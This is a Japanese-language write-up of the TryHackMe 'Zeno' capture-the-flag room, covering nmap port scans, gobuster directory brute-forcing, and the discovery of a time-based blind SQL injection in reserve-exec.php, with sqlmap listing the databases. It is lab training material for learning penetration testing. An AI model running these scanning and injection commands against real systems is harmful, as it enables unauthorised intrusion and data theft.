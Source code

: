# Zeno CTF

https://tryhackme.com/room/zeno

## Enumeration

```shell
TARGET=10.201.47.68
sudo bash -c "echo $TARGET   zeno.thm >> /etc/hosts"
```

### ポートスキャン

```shell
sudo nmap -sS -p- $TARGET

PORT      STATE SERVICE
22/tcp    open  ssh
12340/tcp open  unknown
```

```sh
sudo nmap -sS -sV -p22,12340 $TARGET

PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.4 (protocol 2.0)
12340/tcp open  http    Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
```

SSH, HTTP(12340)

### ディレクトリ列挙

/rms を発見。

```shell
root@ip-10-201-70-77:~# cat /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt /usr/share/wordlists/SecLists/Discovery/Web-Content/big.txt | sort -u > ./dirlist.txt

root@ip-10-201-70-77:~# gobuster dir -q -x=txt,php -u http://zeno.thm:12340 -w ./dirlist.txt -t 64 -k
/rms                  (Status: 301) [Size: 234]
```

Pathfinder Hotel Restaurant のWebページ。ユーザー登録後、画面をいろいろ操作してリクエストを発生させ、POSTリクエストをテキスト保存。

## SQLi

reserve-exec.php の table パラメータにSQLインジェクションの脆弱性を発見。Time-Based-Blind かつテーブル数が多いので非常に時間がかかる。

DB名特定

```sh
$ sqlmap -r reserve.txt --dbs --batch

available databases [4]:
[*] dbrms
[*] information_schema
[*] mysql
[*] performance_schema
```
